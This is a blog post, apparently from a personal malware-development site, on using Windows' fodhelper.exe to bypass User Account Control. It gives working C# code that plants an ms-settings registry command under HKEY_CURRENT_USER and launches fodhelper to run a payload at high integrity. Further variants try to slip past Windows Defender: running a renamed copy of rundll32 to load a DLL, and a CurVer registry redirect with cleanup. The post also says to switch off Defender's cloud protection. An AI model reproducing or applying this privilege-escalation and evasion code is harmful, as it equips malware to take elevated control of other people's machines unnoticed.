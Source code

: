 ```yaml
---
layout: post
title: Experimenting with the FodHelper UAC bypass
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```



FodHelper is a Windows binary used to manage optional features. `fodhelper.exe` is vulnerable because it is a high-integrity process that interacts with the `HKEY_CURRENT_USER` registry hive, which we can control. One notable example of malware that uses `fodhelper.exe` to bypass User Account Control (UAC) and execute malicious activities is the TrickBot trojan.

When launched, FodHelper will search for the `(default)` value in the `HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command` registry key. This registry key does not exist by default, so if we create it and add the DelegateExecute property, it will execute our payload in a high-integrity context.

Let's try out a console app that will make `fodhelper.exe` execute our payload, marked as `<PAYLOAD>` 

> All of the projects created in this post are on my GitHub, check them out! Don't forget to turn off`Cloud-Delivered protection` and `Automatic sample submission`.
{: .prompt-info }

```C#
using System.Diagnostics;
using Microsoft.Win32;

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", "<PAYLOAD>");

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Let's substitute `<PAYLOAD>` for `powershell.exe`, build the code and try it out.

![Image 1](/assets/image1.png)

It seems like Windows Defender doesn't want to have executables in `(default)`. What if we try `powershell` instead of `powershell.exe`?...still doesn't work. Maybe `powershell "Start-Process powershell"`?...nope. If we can't get it to execute any commands, injecting a DLL into FodHelper is the next best thing. 

The easiest way to do this would be to make it execute `rundll32 <DLL_NAME>`. Since I don't think Defender would be too happy with us making FodHelper run a binary from `%windir%\system32`, let's make a copy of `run32dll`. Our payload should now be `C:\temp\luci C:\temp\payload.dll`. Let's apply these revisions to our code

```C#
using System.Diagnostics;
using Microsoft.Win32;
// The full and improved code in this snippet above can be found on my GitHub
private const string Payload = "C:\temp\luci.exe C:\temp\payload.dll,DllMain";

// Copy run32dll.exe to luci.exe
File.Copy(@"C:\windows\system32\rundll32.exe", @"C:\temp\luci.exe");

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", Payload);

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Having an evasive payload inside a DLL can be difficult, so let's see if this can be done any other way. What if we can somehow trick Defender into thinking the registry key has been untouched? Let's look it up.

![Image 2](/assets/image2.png)

Upon reading the documentation, I have stumbled upon this:


|CurVer |	Set the (Default) entry of this subkey to the most current version of this ProgID.Note: Unless you have side-by-side application versions, that is, multiple versions installed on the same system, you should avoid using CurVer.|
|--- |---|

***https://learn.microsoft.com/en-us/windows/win32/shell/fa-progids***

Looks fairly promising...let's see how it can be used. Consulting with StackExchange led me to this (post)[https://stackoverflow.com/questions/20974888/how-to-find-componentid-of-wscript-shell]. Finally, this should trick Defender into perceiving the registry untouched:

```C#        
// Create the registry keys
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\ms-settings\CurVer", "", ".redirect");
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\.redirect\Shell\Open\command", "", <PAYLOAD>);

 // Start the process
Process process = new Process();
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";
process.Start();

// Cleanup
System.Threading.Thread.Sleep(3000);
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\ms-settings");
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\rekt");

```

And...this got caught by Defender again. So far, it seems like the only way to do this is using a DLL. I will update this post if I find any other method. 

Thanks for reading!
